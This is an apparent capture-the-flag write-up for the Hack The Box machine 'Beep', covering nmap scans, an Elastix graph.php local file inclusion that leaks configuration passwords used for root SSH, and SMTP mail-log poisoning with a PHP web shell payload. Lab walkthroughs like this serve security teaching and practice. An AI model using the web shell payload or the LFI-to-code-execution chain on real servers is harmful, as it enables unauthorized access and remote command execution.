 ## Beep


## Scanning

### Nmap Scanning


- default scan

```bash
$ nmap   10.10.10.7                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 12:47 EDT
Nmap scan report for 10.10.10.7
Host is up (0.096s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 8.32 seconds
```

```bash
$ nmap -sC -sV  -p22,25,80,110,111,143,993,995,3306,4445  10.10.10.7                  130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 12:48 EDT
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp   open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp  open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP USER IMPLEMENTATION(Cyrus POP3 server v2) APOP AUTH-RESP-CODE EXPIRE(NEVER) STLS UIDL PIPELINING LOGIN-DELAY(0) RESP-CODES
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN ATOMIC Completed MULTIAPPEND SORT OK CATENATE URLAUTHA0001 UIDPLUS BINARY CONDSTORE ANNOTATEMORE LISTEXT ACL X-NETSCAPE LIST-SUBSCRIBED LITERAL+ THREAD=REFERENCES THREAD=ORDEREDSUBJECT NO SORT=MODSEQ IDLE NAMESPACE IMAP4rev1 QUOTA ID UNSELECT MAILBOX-REFERRALS RENAME IMAP4 STARTTLS RIGHTS=kxte
993/tcp  open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp  open  pop3       Cyrus pop3d
3306/tcp open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp open  upnotifyp?
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 390.80 seconds
```


## Enumeration

- Webpage

![homepage](images/homepage.PNG)

- on searching `searchsploit elastix` found `LFI` (`graph.php`)

```bash
$ searchsploit elastix         
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                         | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                       | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                 | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                              | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                             | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                            | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                        | php/webapps/18650.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- ERxamine the POC and run the exploit

![lfi](images/lfi.PNG)

__Result__
![lfi_result](images/lfi_result.PNG)

- view source for better readability.
- on examing found few potential passwords and tried ssh
- Potential passwords found
```bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

> ssh resulted in error

```bash
$ ssh root@10.10.10.7                                             
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

- after adding `KexAlgorithms` it worked 

__Result__

```bash
ssh -o KexAlgorithms=diffie-hellman-group1-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```


### RFI using SMTP

- telnet to `smtp` and send mail to user `asterisk` (for potential users `cat /etc/passwd` in LFI) then use the request the `log file` (`/var/mail/<user>`) to see the injected code


__step 1__

- telnet to victim machine and on connection send hello `EHLO` along with identifier `shashi.beep.htb` (any id)

```bash
$ telnet 10.10.10.7 25    
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO shashi.beep.htb
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
```

- And then use `VRFY` to verify the existing user (e.g `asterisk`) in out case

```bash
VRFY asterisk
252 2.0.0 asterisk
```

- we can also use ` VRFY asterisk@localhost`

- Now compose an email

__step 2__

```bash
mail from:shashi@htb.com
250 2.1.0 Ok
rcpt to:asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject:You got hacked
<?php echo system($_REQUEST['cmd']) ; ?>
##### this is ablank line
.
250 2.0.0 Ok: queued as 0053BD92FD

```

- Now request the mail log, located in `/var/mail/asterisk`

![lfi_mail](images/lfi_mail.PNG)

- Now use `&cmd=<command>` at the end of the url,



